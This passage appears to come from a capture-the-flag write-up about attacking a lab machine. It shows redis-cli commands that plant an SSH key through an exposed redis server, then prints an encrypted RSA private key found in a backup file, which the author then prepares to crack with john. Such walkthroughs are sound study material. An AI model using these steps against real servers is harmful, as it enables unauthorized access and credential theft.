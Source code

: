 I upload the private key on the redis in the `authorized_keys` file.

```bash
$ cat spaced_keys.txt | redis-cli -h 10.10.10.160 -x set sshblob
OK
$ redis-cli -h 10.10.10.160 save
OK
```

# Privesc

## Matt

There is a backup file in `/opt/id_rsa.bak`.

```bash
$ cat /opt/id_rsa.bak

-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,73E9CEFBCCF5287C

JehA51I17rsCOOVqyWx+C8363IOBYXQ11Ddw/pr3L2A2NDtB7tvsXNyqKDghfQnX
cwGJJUD9kKJniJkJzrvF1WepvMNkj9ZItXQzYN8wbjlrku1bJq5xnJX9EUb5I7k2
7GsTwsMvKzXkkfEZQaXK/T50s3I4Cdcfbr1dXIyabXLLpZOiZEKvr4+KySjp4ou6
cdnCWhzkA/TwJpXG1WeOmMvtCZW1HCButYsNP6BDf78bQGmmlirqRmXfLB92JhT9
1u8JzHCJ1zZMG5vaUtvon0qgPx7xeIUO6LAFTozrN9MGWEqBEJ5zMVrrt3TGVkcv
EyvlWwks7R/gjxHyUwT+a5LCGGSjVD85LxYutgWxOUKbtWGBbU8yi7YsXlKCwwHP
UH7OfQz03VWy+K0aa8Qs+Eyw6X3wbWnue03ng/sLJnJ729zb3kuym8r+hU+9v6VY
Sj+QnjVTYjDfnT22jJBUHTV2yrKeAz6CXdFT+xIhxEAiv0m1ZkkyQkWpUiCzyuYK
t+MStwWtSt0VJ4U1Na2G3xGPjmrkmjwXvudKC0YN/OBoPPOTaBVD9i6fsoZ6pwnS
5Mi8BzrBhdO0wHaDcTYPc3B00CwqAV5MXmkAk2zKL0W2tdVYksKwxKCwGmWlpdke
P2JGlp9LWEerMfolbjTSOU5mDePfMQ3fwCO6MPBiqzrrFcPNJr7/McQECb5sf+O6
jKE3Jfn0UVE2QVdVK3oEL6DyaBf/W2d/3T7q10Ud7K+4Kd36gxMBf33Ea6+qx3Ge
SbJIhksw5TKhd505AiUH2Tn89qNGecVJEbjKeJ/vFZC5YIsQ+9sl89TmJHL74Y3i
l3YXDEsQjhZHxX5X/RU02D+AF07p3BSRjhD30cjj0uuWkKowpoo0Y0eblgmd7o2X
0VIWrskPK4I7IH5gbkrxVGb/9g/W2ua1C3Nncv3MNcf0nlI117BS/QwNtuTozG8p
S9k3li+rYr6f3ma/ULsUnKiZls8SpU+RsaosLGKZ6p2oIe8oRSmlOCsY0ICq7eRR
hkuzUuH9z/mBo2tQWh8qvToCSEjg8yNO9z8+LdoN1wQWMPaVwRBjIyxCPHFTJ3u+
Zxy0tIPwjCZvxUfYn/K4FVHavvA+b9lopnUCEAERpwIv8+tYofwGVpLVC0DrN58V
XTfB2X9sL1oB3hO4mJF0Z3yJ2KZEdYwHGuqNTFagN0gBcyNI2wsxZNzIK26vPrOD
b6Bc9UdiWCZqMKUx4aMTLhG5ROjgQGytWf/q7MGrO3cF25k1PEWNyZMqY4WYsZXi
WhQFHkFOINwVEOtHakZ/ToYaUQNtRT6pZyHgvjT0mTo0t3jUERsppj1pwbggCGmh
KTkmhK+MTaoy89Cg0Xw2J18Dm0o78p6UNrkSue1CsWjEfEIF3NAMEU2o+Ngq92Hm
npAFRetvwQ7xukk0rbb6mvF8gSqLQg7WpbZFytgS05TpPZPM0h8tRE8YRdJheWrQ
VcNyZH8OHYqES4g2UF62KpttqSwLiiF4utHq+/h5CQwsF+JRg88bnxh2z2BD6i5W
X+hK5HPpp6QnjZ8A5ERuUEGaZBEUvGJtPGHjZyLpkytMhTjaOrRNYw==
-----END RSA PRIVATE KEY-----
```

We convert the encrypted key into a format so that `john` can crack it.
